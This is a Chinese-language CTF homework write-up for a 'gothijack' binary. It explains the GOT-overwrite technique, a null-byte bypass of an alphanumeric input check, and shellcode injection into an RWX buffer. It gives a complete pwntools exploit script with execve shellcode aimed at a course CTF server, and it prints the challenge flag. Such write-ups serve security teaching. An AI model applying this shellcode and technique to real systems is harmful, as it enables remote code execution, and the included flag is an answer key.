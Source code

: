 hw2
===

## gothijack

```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX disabled
PIE:      No PIE (0x400000)
RWX:      Has RWX segments
```

### concept

該程式很單純的做了四件事

1. 輸入 name
2. 輸入想修改的 address
3. 輸入想修改的值
4. 輸出 done !

依題目提示可知是使用 got hijack 的技巧來達成攻擊，不過這題有 canary 不能直接 overflow 造出 ROP chain

不過有個可以可控的 buffer 可以利用，使用 gdb 觀察一下發現該處可寫可執行！！！

![](https://i.imgur.com/8RqKD74.png)

![](https://i.imgur.com/pauryBM.png)

如此就可以塞入 shellcode 並修改 puts 的 got 為 buffer address，使得最後要輸出時 call puts 會跳到寫好的 shellcode 執行

但是輸入的 buffer 讀進來後有個 check 函數檢查輸入要為 alpha 或 number，不過他是用 strlen 判斷長度可以使用 null byte 繞過，因為他是以 null byte 當作字串結尾

![](https://i.imgur.com/MmUJNOm.png)

所以我們可以在 shellcode 前面塞一個 null byte 繞過檢查，而之後 puts got 的值改成 buffer address + 1 即可

### exploit

使用 objdump 可以看到 puts 的 got

![](https://i.imgur.com/ZyWex9z.png)

```python
#!/usr/bin/env python

from pwn import *

# r = process('./gothijack')
r = remote('csie.ctf.tw', 10129)

shellcode = '\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\
\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'
puts_got = '601020'
buf_addr = 0x6010a1

r.recvuntil(':')
r.send('\x00' + shellcode)
r.recvuntil(':')
r.sendline(puts_got)
r.recvuntil(':')
r.sendline(p64(buf_addr))
r.interactive()
```

### flag

```FLAG{G0THiJJack1NG}```
